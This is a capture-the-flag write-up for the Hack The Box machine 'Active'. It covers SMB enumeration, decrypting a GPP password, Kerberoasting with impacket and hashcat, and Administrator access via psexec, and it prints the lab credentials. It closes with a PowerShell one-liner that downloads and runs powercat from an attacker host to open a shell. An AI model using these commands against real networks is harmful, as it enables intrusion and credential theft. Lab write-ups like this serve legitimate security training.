 ```yaml
---
title: "Active - HTB"
categories: [Windows, Easy]
tags: [Easy,Windows,Kerberoasting,Kerberos,AD,SMB]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Active.png
---
```


# Introdution

This box is a Windows Easy. We’ll start enumerate SMB, where the `Replication` share will find. There’re a file that contains a user and a pass encrypted with GPP. After to decrypt the pass, we will do a **Kerberoasting Attack.** We’ll get the hash Administrator user.

**Have a good time!**

## Diagram

```mermaid
graph TD
  Enumeration --> B(Enum_SMB) --> 
  C[/Replication/] --> |GPP| D[User: SVC_TG] --> 
  Exploration --> |Kerberoasting Attack| E(Administrator)
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.100 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.100
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled.png)

The `active.htb` domain was found, let’s insert in `/etc/hosts`

## **SMB - TCP 139/445**

Lets enumerate the SMB using the `smbclient`*.*

```bash
smbclient -N -L //10.10.10.100
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%201.png)

The `Replication` share was found and we can access it.

### Share Replication - SMB

```bash
smbclient -N //10.10.10.100/replication
```

There’re some files interesting.

- ***/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml***

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%202.png)

We have userName and a probable password.

```
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

> **Senhas GPP**
> 
> 
> Whenever a new Group Policy Preference (GPP) is created, there is an xml file created on the SYSVOL share with this configuration data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before storing it as `cpassword`. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!
> 
> Microsoft released a patch in 2014 that prevented administrators from putting passwords in GPP. But this patch does nothing about any of those breakable passwords that were already there, and as I understand it, pentesters are still regularly encountering them in 2018. For more details, check out this [AD security post](https://adsecurity.org/?p=2288).
> 

## Decrypting the GPP Password

Since the key is know, I can decrypt the pass. Kali have a tool called `gpp-decrypt` that It’ll this.

`gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

We found the pass for user **active.htb\SVC_TGS** : **GPPstillStandingStrong2k18**

## Enumerating SMB

With the username and password, let's enumerate the smb with the credential.

```
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%203.png)

We gain access to three more shares: `NETLOGON, SYSVOL, Users`

### Shares Users - SMB

```
smbclient //10.10.10.100/Users -U "active.htb\\SVC_TGS%GPPstillStandingStrong2k18"
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%204.png)

The `Users` share is the directory `C:\Users`

In `/users/SVC_TGS/Desktop/`, We found the `user.txt`, which contains a flag. 

# Exploration

## **Kerberoasting**

We'll use the **active.htb/SVC_TGS**:`GPPstillStandingStrong2k18` credentials to get a list of service usernames that are associated with regular user accounts.

We found a user: Administrator

```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%205.png)

It also gives me the ticket, which I can try to brute-force decrypt to get the user's password:

```
cat GetUserSPNs.out
```

Cracking the hash:

```
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%206.png)

We found the pass to **Administrator**:`Ticketmaster1968`

### Getting the **Shell**

With the credencials found, We log through **psexec**:

```bash
impacket-psexec active.htb/administrator@10.10.10.100
```

---

# Post Exploration

**Access:**

**Administrator**:**Ticketmaster1968**

```bash
impacket-psexec active.htb/administrator@10.10.10.100
```

We have shell root.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%207.png)

## **Spawn Shell**

```powershell
powershell -c iex(new-object system.net.webclient).downloadstring('http://10.10.14.4/powercat.ps1')
```